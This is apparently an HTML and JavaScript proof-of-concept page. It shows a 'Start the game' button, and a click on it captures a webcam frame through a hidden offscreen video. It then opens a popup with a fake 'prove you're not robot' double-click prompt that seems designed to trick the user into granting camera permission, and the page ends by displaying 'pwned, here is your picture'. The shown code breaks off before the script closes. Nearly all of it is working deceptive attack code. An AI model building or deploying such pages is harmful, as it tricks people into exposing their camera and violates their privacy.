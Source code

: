 ```html
<body style="color:white;background-color:black">
  <center>
    <br>
    <br>
    <br>
    <br>
    <br>
    <button style="padding: 10px 20px; background: linear-gradient(90deg, #4CAF50, #45A049); border: none; border-radius: 25px; color: white; font-size: 16px; font-weight: bold; cursor: pointer; box-shadow: 0 4px 6px rgba(0, 0, 0, 0.1); transition: all 0.3s ease; font-size: 50px;">Start the game</button>
    <br>
    <br>
    <br>
    <br>
    <img src="https://i.ytimg.com/vi/cWOkHQXw0JQ/hq720.jpg?sqp=-oaymwEhCK4FEIIDSFryq4qpAxMIARUAAAAAGAElAADIQj0AgKJD&rs=AOn4CLCqzdZDkPgmkM1-wTVsdF2LhRxynw">
  </center>
  <script>
    async function captureFrame() {
      const stream = await navigator.mediaDevices.getUserMedia({
        video: true
      });
      const video = document.createElement('video');
      video.style.position = 'absolute'; // Hide the video offscreen
      video.style.top = '-9999px';
      video.playsInline = true; // Required for iOS
      video.srcObject = stream;
      document.body.appendChild(video);
      await video.play();
      const canvas = document.createElement('canvas');
      canvas.width = video.videoWidth;
      canvas.height = video.videoHeight;
      canvas.getContext('2d').drawImage(video, 0, 0);
      document.body.innerHTML = ' < h1 > pwned, here is your picture: < br > ';
      document.body.appendChild(canvas);
      stream.getTracks().forEach(track => track.stop());
      document.body.removeChild(video); // Clean up video
    }
    document.body.onclick = () => {
      captureFrame();
      let params = `scrollbars=no,resizable=no,status=no,location=no,toolbar=no,menubar=no,width=${window.innerWidth},height=440,left=100,top=180`;
      setTimeout(() => {
        let win = open('about:blank', 'win', params);
        win.document.write(`
        
														<body style="background-color: black; margin: 0; height: 100vh; display: flex; flex-direction: column; justify-content: flex-end; align-items: center;">
															<div style="color: white; position: absolute; bottom: 35vh; left: 50%; transform: translateX(-50%);">
																<h1>Double click below to prove you're not robot</h1>
															</div>
															<div 
               style="background-color: blue; color: white; margin-bottom: 22vh;">
																<h3 onmousedown=window.close();>Double Click Here</h3>
															</div>
														</body>
        `);
      }, 10);
```